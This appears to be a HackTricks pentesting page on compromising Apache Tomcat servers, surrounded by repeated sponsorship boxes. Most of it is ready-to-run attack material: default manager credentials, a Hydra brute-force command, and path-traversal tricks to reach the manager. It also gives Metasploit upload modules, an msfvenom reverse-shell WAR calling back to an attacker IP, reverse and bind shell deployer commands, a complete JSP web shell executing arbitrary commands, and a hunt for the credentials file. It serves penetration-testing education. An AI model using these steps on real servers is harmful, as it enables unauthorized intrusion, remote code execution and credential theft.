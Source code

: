 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Tomcat

It usually runs on **port 8080**

## Avoid to run with root

In order to not run Tomcat with root a very common configuration is to set an Apache server in port 80/443 and, if the requested path matches a regexp, the request is sent to Tomcat running on a different port.

## Username Enum

In some versions prior to Tomcat6 you could enumerate users:

```bash
msf> use auxiliary/scanner/http/tomcat_enum
```

## Default credentials

The most interesting path of Tomcat is _**/manager/html**_, inside that **path you can upload and deploy war files** (execute code). But this path is protected by basic HTTP auth, the most common credentials are:

* admin:admin
* tomcat:tomcat
* admin:\<NOTHING>
* admin:s3cr3t
* tomcat:s3cr3t
* admin:tomcat

You could test these and more using:

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```

Another **interesting Tomcat** path is _**/manager/status**_, where you can see the version of the OS and Tomcat. This is useful to find vulns affecting the version of Tomcat when you cannot access _**/manager/html.**_

### Bruteforce

This could be needed.

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## Vulns

### Password backtrace disclosure

Try to access `/auth.jsp` and if you are very lucky it **might disclose the password in a backtrace**.

### Double URL encode

A well-known vulnerability _to_ access the application manager \_\_ is mod\_jk in CVE-2007-1860, that allows **Double URL encode path traversal.**

In order to access to the management web of the Tomcat go to: _pathTomcat/%252E%252E/manager/html_

Take into account that to upload the webshell you might need to use the double urlencode trick and send also a cookie and/or a SSRF token.\
To access to backdoor you might also need to use the double urlencode trick.

### /examples

The following example scripts that come with Apache Tomcat v4.x - v7.x and can be used by attackers to gain information about the system. These scripts are also known to be vulnerable to cross site scripting (XSS) injection (from [here](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)).

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp

### Path Traversal (..;/)

In some **[vulnerable configurations of Tomcat](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)** you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`

## RCE

Finally, if you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file (execute code)**.

### Limitations

You will only be able to deploy a WAR if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**). Those details can be find under _tomcat-users.xml_ usually defined in `/usr/share/tomcat9/etc/tomcat-users.xml` (it vary between versions) (see [POST ](tomcat.md#post)section).

```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```

### Metasploit

```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

### MSFVenom Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=80 -f war -o revshell.war
```

Then, upload the revshell.war file and access to it (_/revshell/_)

### Bind and reverse shell with [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer)

In some scenarios this doesn't work (for example old versions of sun)

#### Download

```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```

#### Reverse shell

```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```

#### Bind shell

```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```

### Using [Culsterd](https://github.com/hatRiot/clusterd)

```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```

### Manual method - Web shell

Create **index.jsp** with this content:

```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

```bash
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```

You could also install this (allows upload, download and command execution): [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)

## POST

Name of Tomcat credentials file is _tomcat-users.xml_

```bash
find / -name tomcat-users.xml 2>/dev/null
```

Other ways to gather Tomcat credentials:

```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


